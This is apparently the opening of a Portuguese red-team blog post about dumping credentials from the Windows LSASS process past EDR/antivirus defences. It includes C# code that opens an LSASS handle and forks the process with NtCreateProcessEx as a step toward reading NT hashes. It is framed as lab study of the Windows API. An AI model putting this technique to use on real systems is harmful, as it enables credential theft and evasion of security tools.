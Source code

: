 ```yaml
---
title: "LSASS: A reciclagem também está presente nos handles."
date: 2023-06-03 00:00:00 +0800
categories: [Windows]
tags: [Red Team]
---
```



Como sabemos, o processo do LSASS é um tesouro quando se observado pelo lado ofensivo. É neste processo que informações de logons de usuários são armazenados (como as valiosas NT hashes). Quando o assunto é dump de credenciais, um handle com permissões de `PROCESS_VM_READ` ao LSASS se torna tudo o que um atacante quer.

> `PROCESS_VM_READ¹`: permissão necessária para a leitura da memória (dump) de um processo. 
{: .prompt-info }

Contextualizando: durante meus estudos de Windows API, estive aprofundando em técnicas de dump de LSASS que normalmente um EDR/XDR não detectaria. Em um laboratório, instalei um famoso antivírus do mercado (no qual não citarei o nome) e que me rendeu bastante trabalho. Quando eu abria um handle pro LSASS e tentava interagí-lo, um erro era retornado: `STATUS_ACCESS_DENIED`.

![Desktop View](https://i.imgur.com/RBZ4JSv.png)

No código, eu primeiro abria um handle pro LSASS com o acesso `PROCESS_CREATE_PROCESS²`. Como exibido na captura de tela acima, o erro ocorria na execução da API `NtCreateProcessEx³`. Esse erro ocorre devido a privilégios insuficientes dados ao handle.

```csharp
	uint accessParentProcess = PROCESS_CREATE_PROCESS;
	uint accessChildProcess = PROCESS_QUERY_INFORMATION | PROCESS_VM_READ ;

	IntPtr hParentProcess = OpenProcess((uint)accessParentProcess, false, Convert.ToUInt32(pid)); // abrindo um handle ao LSASS com PROCESS_CREATE_PROCESS

	Console.WriteLine($"[+] Handle: {hParentProcess}");

  // clonando o processo do LSASS

	int ningning = NtCreateProcessEx(
		out IntPtr hChildProcess,
		(uint)accessChildProcess,
		IntPtr.Zero,
		hParentProcess,
		0,
		IntPtr.Zero,
		IntPtr.Zero,
		IntPtr.Zero,
		false
	);

	if (ningning == 0)
	{
		uint hChildPid = GetProcessId(hChildProcess);

		Console.WriteLine($"[^] Forked Handle: {hChildProcess}");
		Console.WriteLine($"[^] Forked PID: {hChildPid}");
	}
```

> `PROCESS_CREATE_PROCESS²`: permissão necessária criar uma fork (clone) de um processo alvo.
> `NtCreateProcessEx³`: API utilizada para criar um fork do processo (LSASS). 
{: .prompt-info }

![Desktop View](https://i.imgur.com/RUkXM62.png)
